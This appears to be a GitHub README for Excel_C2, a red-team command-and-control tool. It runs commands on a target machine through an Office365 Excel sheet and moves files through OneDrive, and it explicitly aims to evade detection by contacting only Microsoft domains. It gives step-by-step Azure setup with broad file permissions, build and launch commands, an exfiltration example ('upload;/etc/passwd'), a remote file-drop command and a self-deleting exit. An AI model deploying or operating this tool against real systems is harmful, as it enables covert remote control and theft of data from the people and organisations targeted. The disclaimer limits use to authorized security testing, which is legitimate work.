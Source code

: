 # Excel_C2

Excel_C2 (Excel Command and Control) is a Command and Control application that allows an attacker to execute commands on the target machine using an Office365 Excel sheet and exfiltrates data OneDrive.

## Why

This program has been developed in order to provide a command and control that does not require any particular set up (like: a custom domain, VPS, CDN, ...) during Red Teaming activities.

Furthermore, the program will interact only with Microsoft's domains to make detection more difficult.

## Requirements

- Azure AD login with permissions to:
  - Register Application
    - Apply Delegated and Application permissions for Files.ReadWrite.All
  - Grant admin consent confirmation
- O365 Subscription

## Set up

1. **Register an Azure Portal App**
    1. Log into the [Azure Active Directory Admin center](https://aad.portal.azure.com/) with a Global Administrator Account.
    1. Expand **Azure Active Directory** on the left navigation panel
    1. Expand **Applications**
    1. Select **App registrations** \
      ![App registrations](img/aad-portal-app-registrations.png)
    1. Click the  **New Registration** button \
      ![New registration](img/new-registration.png)
    1. Enter a name for your new app, select "Accounts in this organizational directory only (MSFT only - Single Tenant)", and click the **Register** button \
      ![New application](img/new-application.png)
    1. On the application page, note the **Application (client) ID** and **Directory (tenant) ID** values.  They will be used for `clientId` and `tenantId` respectively. \
      ![App IDs](img/app-ids.png)
    1. Click **API permissions** \
      ![API permissions](img/api-perms.png)
    1. Click the **Add a permission** button \
      ![Add permission](img/add-perm-button.png)
    1. Click the **Microsoft Graph** button \
      ![Add MS Graph](img/add-graph-perm.png)
    1. Click the **Application permissions** button \
      ![Application Permissions](img/app-perm.png)
    1. Type "files" to filter the permissions.  Then expand the **Files** option and check the box next to "Files.ReadWriteAll" and click the **Add permissions** button \
      ![File Permissions](img/files-perm.png)
    1. Add the same "Files.ReadWrite.All" under the **Delegated permissions** area
    1. Back on the "API permissions" page, click the **Grant admin consent for MSFT** button and **Yes** in the banner \
      ![Grant Consent](img/grant-consent.png)
    1. In the naviation menu, select **Certificates & secrets** and click the **New client secret** button \
      ![New Secret](img/new-secret.png)
    1. Enter a description and click the **Add** button \
      ![Add Secret](img/add-secret.png)
    1. Copy the "Value" field of your newly created secret.  This will not be displayed again once you leave this page.  This will be used for the `clientSecret` field \
      ![Copy Secret](img/copy-secret.png)

1. **Create the Excel Spreadsheet**

    1. Login with the same account to [OneDrive](https://onedrive.live.com)
    1. Click on the arrow next to the **New** button and select **Excel workbook** \
      ![New Workbook](img/new-excel.png)
    1. You need the ID for the onedrive as well as the ID for the new sheet you've created.  Lucikly Microsft makes it as difficult as possible to find that information.  I was able to get it using Postman.  Follow the guide at [https://learn.microsoft.com/en-us/graph/use-postman](https://learn.microsoft.com/en-us/graph/use-postman) to setup Postman 
    > NOTE: you've already completed Step3 by following this README
    1. Once Postman is configured and you're able to authenticate successfully, find the **Get my files** API call and run that \
      ![Get My Files](img/get-my-files.png)
    1. In the response Body, search for the name of your newly created spreadsheet.  In that same JSON block, there will also be an "id" key.  Copy that value for `sheetId`
    1. Also in that same JSON block, there is a "parentReference" key.  Inside that value, there is a "driveId" key.  Copy that value for `driveId` \
      ![Drive IDs](img/drive-ids.png)

1. **Build executable**

    ```bash
    git clone https://github.com/grantok/Excel-C2
    cd Excel-C2
    go build excel-c2.go
    ```

1. **Start the C2**

    ```none
    excel-c2 --tenant <tenantId> --client <clientId> --secret <clientSecret> --drive <driveId> --sheet <sheetId> --verbos <true|false>
    ```

   > Note: you can also hardcode the parameters in the code, so you will upload only the executable on the target machine (look at comments in root.go)

### Features

- Command execution using Office365 Excel Sheet as a console
- Download files on the target using Microsfot OneDrive
- Upload files (data exfiltration) using Microsft OneDrive
- Exit

#### Command execution

The program will perform a request to the spreedsheet every 30 sec (by default) to check for new commands.
Enter the command in column **A** and the output will be added to column **B**

#### Upload File

The "upload" command will upload a file from the target machine to OneDrive.  The syntax is 

 ```none
upload;<remote path>
 ```

Example:

 ```none
upload;/etc/passwd
 ```

> NOTE: DO **NOT** add spaces.

#### Download File

The "download" command will download a file from OneDrive to the target machine.  The syntax is

 ```none
download;<OneDrive file name>;<remote path>
 ```

Example:

 ```none
download;down.txt;/home/user/downloaded.txt
 ```

> NOTE: DO **NOT** add spaces.

#### Exit

By sending the command *exit*, the program will delete itself from the target and kill its process

> NOTE: From *os* documentation: 
> *If a symlink was used to start the process, depending on the operating system, the result might be the symlink or the path it pointed to*. In this case the symlink is deleted.

#### WorkFlow

### Demo

### Disclaimer

The owner of this project is not responsible for any illegal usage of this program.

This is an open source project meant to be used with authorization to assess the security posture and for research purposes.

The final user is solely responsible for their actions and decisions. The use of this project is at your own risk. The owner of this project does not accept any liability for any loss or damage caused by the use of this project.

### Inspired from: https://github.com/looCiprian/GC2-sheet

### Support the project

**Pull request** 
